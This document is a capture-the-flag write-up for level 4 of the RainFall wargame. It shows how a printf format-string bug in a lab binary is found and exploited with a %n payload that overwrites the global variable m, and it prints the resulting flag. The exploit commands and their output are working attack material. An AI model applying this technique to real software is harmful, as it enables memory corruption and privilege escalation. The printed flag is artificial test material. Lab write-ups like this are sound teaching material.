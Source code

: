 # level 04

The program doesn't seems to wait for parameters but read `stdin` and print it to `stdout`. It doesn't looks like to segfault with large strings :

```bash
level4@RainFall:~$ python -c 'print "A" * 600' python -c 'print "A" * 10' | ./level4
AAAAAAAAAA
level4@RainFall:~$ python -c 'print "A" * 20' | ./level4
AAAAAAAAAAAAAAAAAAAA
level4@RainFall:~$ python -c 'print "A" * 200' | ./level4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

By looking at the assembly code, we can see that the function to inspect is the `n` function. It takes input with `fgets` function, and pass it in a function `p` that simply pass the parameter as the only parameter to `printf`.

First, we will find the Direct Access Paramete, with the script or manually:

```bash
level4@RainFall:~$ (python -c 'print "AAAA" + " %x" * 15') | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

We can see that our Direct Access Parameter is at 12th position.
Then, we get the m address:

```bash
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
0x08049810  m
```

Finally, we need to substract 4 for the number that is check: 16930116 - 4 = 16930112.

We try to exploit:

```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"') | ./level4
                                                                                                                                                b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
